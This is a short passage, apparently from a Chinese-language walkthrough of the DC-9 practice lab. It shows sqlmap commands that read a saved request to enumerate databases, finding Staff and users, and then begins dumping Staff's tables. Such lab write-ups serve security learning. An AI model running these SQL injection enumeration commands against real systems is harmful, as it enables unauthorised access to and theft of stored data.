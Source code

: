 文件名，自己随意

![image-20230811194716648](./imgs/image-20230811194716648.png)

然后开始爆破数据库 `sqlmap`通过`-r`参数，读取请求的数据，来爆破数据库

```bash
sqlmap -r dc9.txt --dbs  --batch
```



![image-20230811194949358](./imgs/image-20230811194949358.png)

发现有两个数据库`Staff和users`

先爆破`Staff`库

```bash
sqlmap -r dc9.txt -D  Staff  --tables   --batch
```


